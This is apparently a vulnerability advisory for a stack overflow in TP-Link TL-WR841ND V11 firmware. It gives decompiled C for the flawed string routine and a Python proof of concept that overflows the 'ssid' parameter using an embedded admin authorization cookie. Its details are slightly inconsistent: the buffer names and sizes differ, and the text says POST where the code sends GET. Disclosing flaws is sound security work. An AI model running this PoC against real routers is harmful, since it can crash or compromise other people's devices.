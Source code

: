 ## Overview

- Firmware download website: https://www.tp-link.com/en/support/download/tl-wr841nd/

## Affected version

TL-WR841ND V11

## Vulnerability details

In the TL-WR841ND V11 Firmware has a stack overflow vulnerability in the `/userRpm/popupSiteSurveyRpm.htm` url. The `v21` variable receives the `ssid` parameter from a POST request and is later assigned to the `v53` variable, which is fixed at 17 bytes. 

![image-20240828174236232](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174236232.png)

![image-20240828174451292](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174451292.png)

![image-20240828174610096](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174610096.png)

![image-20240828174647853](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174647853.png)

![image-20240828174718594](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828174718594.png)

However, since the user can control the input of `ssid`, the statement `stringModify(v8, 512, a3)` can cause a buffer overflow. The user-provided `ssid` can exceed the capacity of the `v8` array, triggering this security vulnerability.

```c
int __fastcall stringModify(_BYTE *a1, int a2, int a3)
{
  bool v3; // dc
  char *v4; // $a2
  int v5; // $a3
  int v6; // $v0
  int v7; // $v1

  if ( !a1 )
    return -1;
  v3 = a3 == 0;
  v4 = (char *)(a3 + 1);
  if ( v3 )
    return -1;
  v5 = 0;
  while ( 1 )
  {
    v7 = *(v4 - 1);
    if ( !*(v4 - 1) || v5 >= a2 )
      break;
    if ( v7 == 47 )
      goto LABEL_18;
    if ( v7 >= 48 )
    {
      if ( v7 == 62 || v7 == 92 )
      {
LABEL_18:
        *a1 = 92;
LABEL_19:
        ++v5;
        ++a1;
      }
      else if ( v7 == 60 )
      {
        *a1 = 92;
        goto LABEL_19;
      }
LABEL_20:
      ++v5;
      *a1++ = *(v4 - 1);
      goto LABEL_21;
    }
    if ( v7 != 13 )
    {
      if ( v7 == 34 )
        goto LABEL_18;
      if ( v7 != 10 )
        goto LABEL_20;
    }
    v6 = *v4;
    if ( v6 != 13 && v6 != 10 )
    {
      *a1 = 60;
      a1[1] = 98;
      a1[2] = 114;
      a1[3] = 62;
      a1 += 4;
    }
    ++v5;
LABEL_21:
    ++v4;
  }
  *a1 = 0;
  return v5;
}
```

## PoC

```python
import requests
import urllib
session = requests.Session()
session.verify = False
def exp(path,cookie):
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))
        }
    payload="/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
    params = {
    "mode":"1000",
    "curRegion":"1000",
    "chanWidth":"100",
    "channel":"1000",
    "ssid":urllib.request.unquote(payload)
    }
    url="http://192.168.0.1:80/{path}/userRpm/popupSiteSurveyRpm.htm".format(path=str(path))
    resp = session.get(url,params=params,headers=headers)
    print (resp.text)
exp("AMSHQZKAISQSDUOA","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```

![image-20240828173712920](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240828173712920.png)
